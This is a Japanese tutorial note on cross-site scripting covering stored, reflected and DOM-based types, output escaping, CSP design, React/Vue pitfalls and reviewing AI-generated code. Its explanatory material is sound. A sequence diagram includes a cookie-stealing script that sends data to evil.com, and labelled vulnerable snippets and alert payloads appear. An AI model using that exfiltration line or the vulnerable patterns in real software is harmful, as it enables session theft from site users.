





# XSS（クロスサイトスクリプティング / Cross-Site Scripting）

> **一言で言うと:** ユーザー入力がHTML/JavaScriptとして解釈されることで、攻撃者が他のユーザーのブラウザ上で任意のスクリプトを実行できてしまう攻撃。防御の本体は**出力時のコンテキスト別エスケープ**と**CSP（Content Security Policy）**。

## 3分で全体像

- **何を解決する技術か:** ユーザー入力（コメント・URLパラメータ・プロフィール等）が他者のブラウザで**実行可能なコード**として解釈される事故を防ぎ、Cookie 窃取・なりすまし・改ざん・キーロガー注入を構造的に止める
- **代表的な使用シーン:** SNS / 掲示板 / EC のコメント表示、検索結果ページ、URL 共有機能、CMS のリッチテキスト投稿、`location.hash` を読む SPA、Markdown レンダリング、サードパーティ HTML の埋め込み（広告・分析タグ）
- **これだけは覚える3つ:**
    1. **防御の本体は「出力時のコンテキスト別エスケープ」** — 入力時サニタイズは補助。HTML / 属性 / JS / URL / CSS で必要なエスケープが違うため、**テンプレートエンジン（React・Vue・html/template・Jinja2）の自動エスケープに乗る**のが安全。`innerHTML` / `dangerouslySetInnerHTML` / `v-html` はバイパス経路
    2. **CSP は多層防御の追加層、エスケープの代替ではない** — `'unsafe-inline'` を許可すると CSP の意味は失われる。nonce / hash ベースで設計し、`report-uri` / `report-to` で違反を検知する
    3. **XSS が成功すると CSRF 防御も無効化される** — ページ内の CSRF トークンを盗めるため、XSS は CSRF の上位互換。HttpOnly Cookie でも Cookie が自動送信される性質は変わらないので、攻撃者は被害者ブラウザから API を直接叩ける
- **AIに任せやすいか:** **一部任せられる** — テンプレートエンジン経由の出力・DOMPurify 適用・CSP ヘッダ設定など定型実装は AI が高品質に書ける。一方で「`href` 属性の `javascript:` スキーム検証」「JSON 文字列の HTML 埋め込み」「`<style>` 内のユーザー入力」など**コンテキスト別の判断**は人間がレビュー必須。AI は `innerHTML` を平然と提案するため、**生成コード中の HTML 文字列構築箇所は必ず疑う**
- **詰まったらここを読む:** [[CSRF]] / [[CORS]] / [[バリデーション]] / [[コンポーネント設計]]

## なぜ必要か

XSSを理解していないと、以下の被害が発生する:

- **セッションハイジャック** — `document.cookie` を盗まれ、攻撃者が被害者としてログインする
- **フィッシング** — 正規サイト上に偽のログインフォームを動的に描画し、認証情報を窃取する
- **キーロギング** — 入力フォームにイベントリスナーを仕込み、パスワードやクレジットカード番号を記録する
- **マルウェア配布** — 信頼されたドメインからリダイレクトさせることで、ブラウザの警告を回避する

XSSは OWASP Top 10 に継続的にランクインしており、Webアプリケーションで**最も頻繁に発見される脆弱性の一つ**である。

## どの問題を解決するか

### 根本問題: データとコードの混同

XSSの根本原因は**信頼できないデータが実行可能なコードとして解釈される**こと。これは[[SQLインジェクション]]と同じ構造的問題であり、インジェクション攻撃の一種である。


```mermaid
flowchart LR
    subgraph Problem["問題: データとコードの混同"]
        A["ユーザー入力<br/>(データ)"] --> B["HTMLに文字列結合"]
        B --> C["ブラウザが<br/>コードとして実行"]
    end

    subgraph Solution["解決: 構造的分離"]
        D["ユーザー入力<br/>(データ)"] --> E["出力時エスケープ"]
        E --> F["ブラウザが<br/>テキストとして表示"]
    end
```

### XSSの3類型

攻撃コードがどこに保存され、どう実行されるかによって3つに分類される:


```mermaid
flowchart TB
    XSS["XSS"] --> Stored["Stored XSS<br/>(永続型)"]
    XSS --> Reflected["Reflected XSS<br/>(反射型)"]
    XSS --> DOM["DOM-based XSS<br/>(DOM型)"]

    Stored --> S1["攻撃コードがDBに保存<br/>→ ページ閲覧者全員が被害"]
    Reflected --> R1["攻撃コードがURLに含まれ<br/>→ リンクをクリックした人が被害"]
    DOM --> D1["サーバーを経由せず<br/>JS内でDOMを操作する際に発生"]
```

| 類型 | 攻撃コードの格納先 | サーバー経由 | 影響範囲 | 危険度 |
|------|------------------|-------------|---------|--------|
| **Stored XSS** | DB（永続） | する | ページ閲覧者全員 | 最も高い |
| **Reflected XSS** | URL（一時的） | する | リンクをクリックした人 | 中 |
| **DOM-based XSS** | クライアントJSのみ | しない | リンクをクリックした人 | 中 |

#### Stored XSS の攻撃フロー

掲示板やプロフィール欄など、ユーザー入力がDBに保存されHTMLに表示される場面で発生する。


```mermaid
sequenceDiagram
    participant Attacker as 攻撃者
    participant Server as サーバー
    participant DB as データベース
    participant Victim as 被害者

    Attacker->>Server: コメント投稿:<br/><script>fetch('https://evil.com/steal?c='+document.cookie)</script>
    Server->>DB: コメントを保存

    Victim->>Server: 掲示板ページを閲覧
    Server->>DB: コメント取得
    DB-->>Server: 攻撃コード入りコメント
    Server-->>Victim: エスケープなしでHTMLに埋め込み

    rect rgb(255, 235, 238)
        Note over Victim: ブラウザがスクリプトを実行<br/>→ Cookieが攻撃者に送信される
    end
```

#### Reflected XSS の攻撃フロー

検索結果ページなど、URLパラメータの値がそのままHTMLに反映される場面で発生する。


```mermaid
sequenceDiagram
    participant Attacker as 攻撃者
    participant Victim as 被害者
    participant Server as サーバー

    Attacker->>Victim: 罠リンクを送信:<br/>https://shop.com/search?q=<script>...</script>
    Victim->>Server: リンクをクリック
    Server-->>Victim: 検索結果ページに<br/>クエリ文字列をそのまま埋め込み

    rect rgb(255, 235, 238)
        Note over Victim: ブラウザがスクリプトを実行
    end
```

#### DOM-based XSS

サーバーを経由せず、クライアントサイドのJavaScriptが `location.hash` や `document.URL` 等のユーザー制御可能な値を直接DOMに挿入する際に発生する。

```javascript
// ❌ 脆弱: location.hashをそのままDOMに挿入
document.getElementById('output').innerHTML = location.hash.substring(1);
// URL: https://example.com/page#
// → imgタグのonerrorが実行される
```

## 他の仕組みとどう関係するか

- **下位レイヤーとの関係:**
  - [[HTTP-HTTPS]] — CSPやX-Content-Type-OptionsなどのHTTPレスポンスヘッダがXSSの追加防御層となる。Cookie属性（HttpOnly, Secure, SameSite）は被害軽減に関わる
  - [[DNS]] — XSSで窃取した情報の送信先としてDNSが利用される

- **同レイヤーとの関係:**
  - [[CSRF]] — XSSが成功するとCSRFトークンも読み取れるため、CSRF防御が無効化される。XSSはCSRFの上位互換的な脅威
  - [[CORS]] — 同一オリジンポリシーはXSSを直接防御しない（攻撃スクリプトは被害者のオリジンで実行されるため）。ただし[[CORS]]設定の甘さがXSSの影響範囲を広げる
  - [[SQLインジェクション]] — XSSと同じ「インジェクション」の構造的問題を共有する。防御の考え方（データとコードの分離）も共通
  - [[プロトタイプ汚染]] — JavaScript 固有の「ガジェット型」脆弱性で、単体では害が小さいが XSS・認証バイパス・RCE を増幅させる。2026年の axios CVE-2026-40175 ではこの汚染がヘッダ注入を経由して RCE に昇華する実例が示された
  - [[最小権限の原則]] — CSPはスクリプト実行の権限を最小限に絞るという点で、最小権限の原則の具体的適用

- **上位レイヤーとの関係:**
  - [[コンポーネント設計]] — React/Vueのテンプレートシステムは自動エスケープによりXSSを構造的に防止する
  - [[バリデーション]] — 入力バリデーションはXSSの補助的防御。構造的防御は[[バリデーションとサニタイズとエスケープ|出力時エスケープ]]

## 誤解されやすいポイント

### 1. 「入力をサニタイズすればXSSは防げる」

サニタイズ（HTMLタグ除去等）は補助的防御にすぎない。新しい攻撃ベクトル（``、`<svg onload=...>` 等）を見逃す可能性がある。XSS防御の**本体は出力時のコンテキスト別エスケープ**。テンプレートエンジンの自動エスケープに頼るのが最も安全。

### 2. 「ReactやVueを使っていればXSSは起きない」

ReactやVueはJSX/テンプレート内の値をデフォルトでエスケープするため、**基本的には安全**。しかし以下のAPIはエスケープをバイパスする:
- React: `dangerouslySetInnerHTML`
- Vue: `v-html`
- `href` 属性に `javascript:` スキームを渡すケース

これらを使う場合は必ずDOMPurify等でサニタイズが必要。

### 3. 「HTTPOnly Cookieを設定すればXSSの被害はない」

HttpOnly CookieはJavaScriptからのCookieアクセスを防ぐが、XSSの被害はCookie窃取だけではない。攻撃者はXSSを通じて以下が可能:
- ページ内容の改ざん（フィッシングフォームの挿入）
- キーストロークの記録
- 被害者の権限でのAPI呼び出し（Cookieは自動送信されるため、JSからアクセスできなくても利用可能）
- CSRFトークンの読み取りとCSRF防御の無効化

なお、トークンを `HttpOnly` Cookie ではなく `localStorage` に保存している場合は事情が逆で、`localStorage` は JS から読めるため XSS 1 発でトークンが直接窃取される。窃取のメカニズムと脆弱→修正コード、サニタイズとの多層防御関係は → [[localStorageとXSSによるトークン窃取]]。

### 4. 「APIがJSONを返すならXSSは関係ない」

`Content-Type: application/json` でも、古いブラウザやMIMEスニッフィングによりHTMLとして解釈されるケースがある。`X-Content-Type-Options: nosniff` ヘッダを必ず設定する。また、JSONの値がフロントエンドでDOMに挿入される場合、フロントエンド側でのエスケープが必要。

### 5. 「CSPを設定すればエスケープは不要」

CSPは**多層防御（Defense in Depth）の一層**であり、エスケープの代替ではない。CSPには設定ミスのリスクがあり、`'unsafe-inline'` を許可してしまうとインラインスクリプトの実行を防げない。エスケープが主防御、CSPは追加防御。

## 設計のベストプラクティス

### 多層防御（Defense in Depth）

XSS対策は単一の手法に頼らず、複数の防御層を重ねる:


```mermaid
flowchart LR
    Input["外部入力"] --> L1["① バリデーション<br/>(補助的防御)"]
    L1 --> Logic["ビジネスロジック"]
    Logic --> L2["② 出力時エスケープ<br/>(主防御)"]
    L2 --> L3["③ CSP<br/>(追加防御)"]
    L3 --> L4["④ HttpOnly Cookie<br/>(被害軽減)"]
    L4 --> Browser["ブラウザ"]
```

| 防御層 | 手段 | 役割 |
|--------|------|------|
| 入力時 | バリデーション（許可リスト） | 不正な形式のデータを門前払い |
| 出力時 | テンプレートエンジンの自動エスケープ | **主防御** — データとHTMLの構造的分離 |
| HTTP | CSP ヘッダ | インラインスクリプト実行のブロック |
| HTTP | `X-Content-Type-Options: nosniff` | MIMEスニッフィングの防止 |
| Cookie | `HttpOnly`, `Secure`, `SameSite` | XSS成功時の被害を軽減 |

### CSP（Content Security Policy）の設計

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
```

CSP設計の原則:
1. **`'unsafe-inline'` を `script-src` に使わない** — これを許可するとインラインスクリプトが実行でき、XSS防御の意味がなくなる
2. **`'unsafe-eval'` を避ける** — `eval()` や `new Function()` を許可してしまう
3. **nonce または hash ベースの許可** — インラインスクリプトが必要な場合は `'nonce-<random>'` を使用
4. **`report-uri` / `report-to`** で違反レポートを収集し、設定の問題を検出する

### アンチパターン

| アンチパターン | なぜ問題か | 対策 |
|---|---|---|
| `innerHTML` でユーザー入力を描画 | エスケープなしで直接XSSになる | `textContent` を使うか、フレームワークのバインディングを使用 |
| 入力時にHTMLエスケープしてDB保存 | 出力コンテキストが変わると二重エスケープが発生 | 生データを保存し、出力時にエスケープ |
| 正規表現で自作HTMLサニタイザー | HTMLの構文解析は正規表現では不可能 | DOMPurify、bluemonday等の実績あるライブラリを使用 |
| CSPに `'unsafe-inline'` を指定 | インラインスクリプトが実行でき、CSPの意味がなくなる | nonce ベースの許可に移行 |

## AIエージェントとの協働

> このトピックでAIコーディングエージェント（Claude Code, Copilot, Cursor 等）と協働するための観点。
> **「AIに何をどこまで任せ、AIに何をレビューさせ、人間は何を最終判断するか」**を整理する。実装だけでなく**レビューもAIに任せられる**前提で考える（AIコードレビュー観点で横断アンチパターン照合を行う）。

### AIに任せられる部分 / 人間が判断すべき部分

| タスク種類 | 任せ方（実装/レビュー） | 人間の関与 |
|---|---|---|
| テンプレートエンジン経由の出力（React JSX / Jinja2 `{{ }}` / `html/template`） | 実装・レビュー両方 AI 委任。AIコードレビュー観点で `innerHTML` / `dangerouslySetInnerHTML` / `v-html` の検出を依頼 | 「ユーザーが Markdown / HTML 投稿できる仕様」かどうかの**仕様判断** — 受け入れる場合のみ DOMPurify 等を導入 |
| CSP ヘッダ生成（helmet / `Content-Security-Policy`） | 実装は AI、レビューも `'unsafe-inline'` / `'unsafe-eval'` の混入を AI に検出させる | nonce 戦略の選定（リクエストごと vs ビルド時 hash）、外部ドメイン許可リストの妥当性 |
| DOMPurify / sanitize-html の適用 | 実装は AI。設定オプションのレビューも AI に任せられる | 「どこまで HTML タグを許可するか」のビジネス判断（`<iframe>` 許可可否など） |
| `href` / `src` 属性のプロトコル検証 | パターン実装は AI（`/^https?:\/\//` 等） | 許可するスキームの方針（`mailto:` / `tel:` を許すか） |
| エスケープ漏れの静的解析（ESLint `react/no-danger`、Semgrep） | ルール選定とCI組み込みを AI に任せる | 既存コードへの段階導入計画、ノイズの多いルールの除外判断 |
| 攻撃ベクトルの再現テスト（Playwright で `<script>alert(1)</script>` 注入） | テストコード生成を AI に任せる | テスト対象エンドポイントの優先順位（被害インパクトの高い順） |

### AI生成コードのレビュー観点（このトピック固有）

AI生成物を受け取ったとき、最低限ここを見る。

1. **HTML 文字列を `+` / テンプレートリテラルで結合していないか** — `` `<h1>${query}</h1>` `` のような構築は AI が書きがち。テンプレートエンジン経由か DOM API（`createTextNode` / `textContent`）に置き換える
2. **`dangerouslySetInnerHTML` / `v-html` / `innerHTML` の使用箇所に DOMPurify 等のサニタイズが入っているか** — AI は「動かす」ことを優先して素のまま使うことが多い。やむを得ず使う場合は必ずサニタイズを噛ませ、許可タグの allowlist を明示する
3. **`href` / `src` 属性にユーザー入力を直接渡していないか** — `javascript:` スキームによる XSS は AI が見落としがち。プロトコルを `https?:` / `mailto:` 等の allowlist で検証してから埋め込む

### 効くプロンプトの型

このトピックに関する実装をAIに依頼するとき、コンテキストとして渡すべき情報・制約・成功基準のテンプレ。

```
# 前提（プロジェクトの状況・既存のコード規約）
- フレームワーク: React 18 / Next.js 14 (App Router)
- ユーザー入力: コメント本文（プレーンテキストのみ受け付け、Markdown は不可）
- 既存の CSP: default-src 'self'; script-src 'self' 'nonce-{nonce}'
- HttpOnly + Secure + SameSite=Lax の Cookie でセッション管理

# やってほしいこと
- コメント投稿フォームと一覧表示画面を実装する

# 守ってほしい制約（このトピック固有のもの）
- ユーザー入力は JSX の `{}` 補間のみで描画し、`dangerouslySetInnerHTML` は禁止
- URL 入力欄（プロフィールリンク等）は `https?:` のみ許可、それ以外は `#` にフォールバック
- 改行は `<br>` ではなく CSS の `white-space: pre-wrap` で表現
- フロント側の入力長制限はあくまで UX 目的で、サーバー側でも検証する

# 完了の判断基準
- `<script>alert(1)</script>` を投稿してもテキストとして表示されること
- `javascript:alert(1)` をプロフィールリンクに入力してもクリックで実行されないこと
- 既存の CSP ヘッダに `'unsafe-inline'` を追加していないこと
```

### AI実装のアンチパターン

LLM生成コードで頻出する過剰設計・誤用パターン。レビュー時の照合表として使う。

| アンチパターン | なぜ問題か | レビュー観点 / 対策 |
|---|---|---|
| `innerHTML` や `v-html` でユーザー入力を描画 | テンプレートの自動エスケープをバイパスする | `textContent` を使うか、必要なら DOMPurify でサニタイズ後に使用 |
| XSS対策としてフロントのみでサニタイズ | 攻撃者はフロントをバイパスして API を直接叩ける | サーバー側で出力時エスケープ。フロントのサニタイズは UX 目的に限定 |
| テンプレートリテラルで HTML を組み立て | バッククォート内の `${variable}` は文字列結合と同じ | テンプレートエンジンか DOM API（`createElement` / `textContent`）で構築 |
| CSP だけに依存してエスケープを省略 | CSP は追加防御であり、設定ミスで無効になりうる | エスケープが主防御、CSP は多層防御の一層 |
| 入力時に HTML エスケープして DB 保存 | 出力コンテキストが変わると二重エスケープ・データ汚染が発生 | 生データを保存し、出力時にエスケープする |
| 正規表現で自作 HTML サニタイザー | HTML の構文解析は正規表現では不可能、`` 等のバイパスを見逃す | DOMPurify / sanitize-html / bluemonday 等の実績ライブラリを使用 |
| `href={url}` にユーザー入力をそのまま渡す | `javascript:` スキームでクリック時に任意コード実行 | `https?:` `mailto:` 等の allowlist で検証してから渡す |
| `JSON.stringify(data)` を `<script>` に直接埋め込む | `</script>` を含むデータで script タグが閉じられる | JSON 用エスケープ（`<` → `<` 等）を行うか、`<script type="application/json">` 経由で `JSON.parse` |

→ レイヤー横断のアンチパターン索引: [[_anti-patterns/_index|AIアンチパターン索引]]

## 具体例

### Stored XSS の脆弱なコードと修正

#### TypeScript（Express）

```typescript
import express from 'express';
import helmet from 'helmet';
import crypto from 'crypto';

const app = express();
app.use(express.urlencoded({ extended: true }));

// ✅ CSPヘッダの設定（helmetを使用）
app.use((req, res, next) => {
  // リクエストごとにnonceを生成
  res.locals.cspNonce = crypto.randomBytes(16).toString('base64');
  next();
});

app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'", (req, res) => `'nonce-${res.locals.cspNonce}'`],
    styleSrc: ["'self'", "'unsafe-inline'"],
    imgSrc: ["'self'", "data:"],
    frameAncestors: ["'none'"],
  },
}));

// ❌ 脆弱: ユーザー入力をそのままHTMLに埋め込み
app.get('/search-vulnerable', (req, res) => {
  const query = req.query.q as string;
  res.send(`<h1>検索結果: ${query}</h1>`);
  // /search-vulnerable?q=<script>alert(document.cookie)</script>
  // → スクリプトが実行される
});

// ✅ 安全: テンプレートエンジンの自動エスケープを使用
// EJSの場合: <%= query %> はHTMLエスケープされる
app.set('view engine', 'ejs');
app.get('/search', (req, res) => {
  res.render('search', { query: req.query.q });
  // テンプレート内: <h1>検索結果: <%= query %></h1>
  // → <script> は &lt;script&gt; にエスケープされる
});

app.listen(3000);
```

#### Go（html/template）

```go
package main

import (
	"html/template"
	"net/http"
)

var searchTmpl = template.Must(template.New("search").Parse(`
<!DOCTYPE html>
<html>
<head><title>検索</title></head>
<body>
  <!-- html/template はデフォルトでHTMLエスケープする -->
  <h1>検索結果: {{.Query}}</h1>
</body>
</html>
`))

func searchHandler(w http.ResponseWriter, r *http.Request) {
	query := r.URL.Query().Get("q")

	// ✅ html/template は自動エスケープ
	// <script>alert(1)</script> → &lt;script&gt;alert(1)&lt;/script&gt;
	searchTmpl.Execute(w, struct{ Query string }{Query: query})
}

func main() {
	http.HandleFunc("/search", searchHandler)
	http.ListenAndServe(":3000", nil)
}
```

**注意:** Go の `text/template` はエスケープしない。HTML出力には必ず `html/template` を使用すること。

#### Python（Jinja2 / Flask）

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

# ✅ Jinja2はデフォルトでautoescape=True
# {{ query }} はHTMLエスケープされる
SEARCH_TEMPLATE = """
<!DOCTYPE html>
<html>
<body>
  <h1>検索結果: {{ query }}</h1>
</body>
</html>
"""

@app.route("/search")
def search():
    query = request.args.get("q", "")
    return render_template_string(SEARCH_TEMPLATE, query=query)
    # <script>alert(1)</script> → &lt;script&gt;alert(1)&lt;/script&gt;

# ❌ 危険: | safe フィルタはエスケープを無効にする
# <h1>{{ query | safe }}</h1>  ← サニタイズ済みHTMLのみに使用

app.run(port=3000)
```

### React / Vue での注意点

```typescript
// === React ===
// ✅ 安全: JSXはデフォルトでエスケープする
function SearchResult({ query }: { query: string }) {
  return <h1>検索結果: {query}</h1>;
  // <script>alert(1)</script> → テキストとして表示される
}

// ❌ 危険: dangerouslySetInnerHTMLはエスケープをバイパス
function Unsafe({ html }: { html: string }) {
  return <div dangerouslySetInnerHTML={{ __html: html }} />;
}

// ✅ 安全: DOMPurifyでサニタイズしてから使用
import DOMPurify from 'dompurify';
function SafeHtml({ html }: { html: string }) {
  return <div dangerouslySetInnerHTML={{
    __html: DOMPurify.sanitize(html)
  }} />;
}

// ❌ 危険: href属性のjavascript:スキーム
function UnsafeLink({ url }: { url: string }) {
  return <a href={url}>リンク</a>;
  // url = "javascript:alert(1)" → クリックでスクリプト実行
}

// ✅ 安全: プロトコルを検証
function SafeLink({ url }: { url: string }) {
  const safeUrl = /^https?:\/\//.test(url) ? url : '#';
  return <a href={safeUrl}>リンク</a>;
}
```

### DOM-based XSS の防御

```javascript
// ❌ 脆弱: innerHTMLにユーザー制御可能な値を挿入
const userInput = new URLSearchParams(location.search).get('name');
document.getElementById('greeting').innerHTML = `こんにちは、${userInput}さん`;
// ?name= → スクリプト実行

// ✅ 安全: textContentを使用（HTMLとして解釈されない）
document.getElementById('greeting').textContent = `こんにちは、${userInput}さん`;

// ✅ 安全: DOM APIで要素を構築
const el = document.getElementById('greeting');
const text = document.createTextNode(`こんにちは、${userInput}さん`);
el.appendChild(text);
```

## 参考リソース

- OWASP XSS Prevention Cheat Sheet — コンテキスト別エスケープルールの網羅的ガイド
- OWASP Content Security Policy Cheat Sheet — CSP設計の実践ガイド
- PortSwigger Web Security Academy — XSSのハンズオン学習環境（無料）
- MDN Web Docs: Content Security Policy (CSP) — CSPディレクティブの公式リファレンス

## 理解度セルフチェック

> 答えられなければ本文に戻る。答えはこのファイル内に必ずある。

1. XSS 防御の「主防御」は何か。サニタイズ・CSP・HttpOnly Cookie ではない理由を一言ずつ添えて説明せよ。
2. 「React を使っているから XSS は起きない」は正しいか。Yes / No と、その判断の根拠を 2 つ挙げよ。
3. 次のコードはコメント本文を表示する Express + EJS のハンドラである。XSS 観点で **3 箇所以上の問題を指摘し**、それぞれどう直すべきかを述べよ。
   ```typescript
   app.get('/comments/:id', async (req, res) => {
     const c = await db.comment.findUnique({ where: { id: req.params.id } });
     res.send(`
       <article>
         <h2>${c.title}</h2>
         <p>${c.body}</p>
         <a href="${c.authorUrl}">投稿者: ${c.authorName}</a>
       </article>
     `);
   });
   ```

> [!note]- 解答の指針
>
> > [!info] 用語ミニ辞典
> > - **コンテキスト別エスケープ**: HTML 本文 / 属性値 / JavaScript 文字列 / URL / CSS で「危険な文字」が違うため、出力先のコンテキストに応じてエスケープルールを変えること。テンプレートエンジンの自動エスケープは HTML 本文用が中心で、属性値や URL では追加対応が必要なケースもある
> > - **`dangerouslySetInnerHTML`**: React で生 HTML を埋め込む API。名前が「dangerously」と付いているのは、自動エスケープを意図的にバイパスするから。本来は信頼済みの HTML（DOMPurify でサニタイズした出力など）にしか使ってはいけない
> > - **CSP（Content Security Policy）**: HTTP レスポンスヘッダ `Content-Security-Policy` でブラウザに「どのオリジンのスクリプト・スタイルを実行してよいか」を宣言する仕組み。`'unsafe-inline'` を許可するとインラインスクリプトの実行を許してしまい、XSS 防御として機能しなくなる
> > - **nonce**: リクエストごとに生成するランダム文字列。CSP で `script-src 'nonce-xxx'` と指定すると、`<script nonce="xxx">` だけが実行を許可される。攻撃者は nonce を知らないため、注入したスクリプトは実行されない
> > - **`javascript:` スキーム**: URL の先頭に書くと、クリック時に JavaScript コードとして実行される古い仕様。`<a href="javascript:alert(1)">` で XSS が成立する典型例
>
> 1. **主防御は「出力時のコンテキスト別エスケープ」**。理由は、XSS の根本原因が「データが実行可能なコードとして解釈されること」であり、出力時にデータを「ただの文字」として明示することで原理的に分離できるから。
>     - **入力時サニタイズ**は補助的防御。新しい攻撃ベクトル（`<svg onload=...>` 等）を見逃しうるうえ、出力先コンテキストが変わると効果が変わる（HTML では安全でも JavaScript 文字列では危険）
>     - **CSP** はあくまで多層防御の追加層。`'unsafe-inline'` を許可してしまうと意味がないし、設定漏れもありうる
>     - **HttpOnly Cookie** は被害軽減（Cookie 窃取の防止）であって、XSS 自体は止まらない。ページ改ざんやキーロガー、被害者ブラウザ経由の API 呼び出しは依然可能
> 2. **No**。React は JSX の `{}` 補間で値を**自動エスケープ**するため**基本的には**安全だが、次の経路では XSS が成立する:
>     - **`dangerouslySetInnerHTML`** — 自動エスケープをバイパスする。Markdown 表示などで使う場合は DOMPurify のサニタイズ必須
>     - **`href` 属性に `javascript:` スキーム** — JSX は属性値も文字列補間としてエスケープするが、`javascript:alert(1)` のようなスキーム自体は文字列として有効に渡る。プロトコルを `https?:` の allowlist で検証する必要がある
>     - 補足: Vue の `v-html`、Angular の `[innerHTML]` も同様の経路。「フレームワークが守ってくれる」のは「テンプレートの値補間」だけ
> 3. **テンプレートリテラルで HTML を組み立てており、3 箇所すべてが XSS 経路**:
>     - `${c.title}` `${c.body}` — `<script>` や `` を含むコメントを保存・表示すると Stored XSS。**EJS / Handlebars 等のテンプレートエンジン経由**で `<%= %>` のような自動エスケープ補間に変える
>     - `${c.authorName}` — 同上、属性値ではないが本文として注入される
>     - `${c.authorUrl}` — `href` 属性の値として補間されるため、`javascript:alert(document.cookie)` を保存されると XSS。`new URL(c.authorUrl).protocol` を `https?:` で検証してから埋め込み、不正なら `#` にフォールバックする
>     - 修正例: `res.render('comment', { c })` でテンプレート側を `<%= c.title %>` `<%= c.body %>` `<%= safeUrl(c.authorUrl) %>` に置き換える。サーバー応答に `Content-Security-Policy` も付与しておくと多層防御になる

## 学習メモ

- [[SQLインジェクションとXSS]] に、SQLインジェクションとXSSの比較・共通構造がまとまっている
- [[バリデーションとサニタイズとエスケープ]] に、バリデーション・サニタイズ・エスケープの使い分けが詳述されている
- [[CSRF]] と合わせて学ぶと「XSSが成功するとCSRF防御も突破される」関係が理解しやすい
